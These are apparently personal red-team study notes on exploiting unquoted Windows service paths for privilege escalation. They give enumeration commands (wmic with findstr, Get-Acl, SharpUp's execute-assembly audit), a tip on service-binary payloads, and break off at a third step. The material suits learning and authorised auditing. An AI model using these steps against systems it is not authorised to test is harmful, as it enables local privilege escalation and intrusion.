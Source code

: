 [Unquoted Service Paths - Privilege Escalation en Windows - Deep Hacking](https://deephacking.tech/unquoted-service-paths-privilege-escalation-en-windows/)


## Conditions

1. Has spaces in the path _and_ is also not quoted - this is condition #1 for exploitation.
```
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

2. If we can drop a binary into any of those paths, the service will execute it before the real one. Of course, there's no guarantee that we have permissions to write into either of them - this is condition #2
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```
	Access : BUILTIN\Users Allow  CreateFiles, Synchronize

SharpUp will also list any services that match these conditions.
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```

> [!important] 
> Payloads to abuse services must be specific "service binaries", because they need to interact with the Service Control Manager.  When using the "Generate All Payloads" option, these have svc in the filename. 

3. 